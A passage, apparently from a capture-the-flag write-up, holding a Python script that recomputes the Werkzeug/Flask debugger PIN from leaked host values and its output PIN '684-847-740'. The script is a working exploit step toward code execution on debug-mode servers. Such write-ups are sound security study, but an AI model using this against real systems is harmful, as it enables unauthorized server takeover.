 ```python
            username,
            modname,
            appname,
            flaskapp_path ]
    private_bits = [
            node_uuid,
            machine_id ]

    h = hasher
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print(rv)

if __name__ == '__main__':

    usernames = ['jacobi']
    modnames = ['flask.app', 'werkzeug.debug']
    appnames = ['wsgi_app', 'DebuggedApplication', 'Flask']
    flaskpaths = ['/usr/local/lib/python3.13/site-packages/flask/app.py']
    nodeuuids = ['116595156675653']
    machineids = ['290a0861-7055-4ec3-9916-cdb1f7e47fcc']

    # Generate all possible combinations of values
    combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

    # Iterate over the combinations and call the crack() function for each one
    for combo in combinations:
        username, modname, appname, flaskpath, nodeuuid, machineid = combo
        print('==========================================================================')
        crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
        print(f'{combo}')
        print('==========================================================================')
```
The first generated pin is 
```
==========================================================================
684-847-740
('jacobi', 'flask.app', 'wsgi_app', '/usr/local/lib/python3.13/site-packages/flask/app.py', '116595156675653', '290a0861-7055-4ec3-9916-cdb1f7e47fcc')
```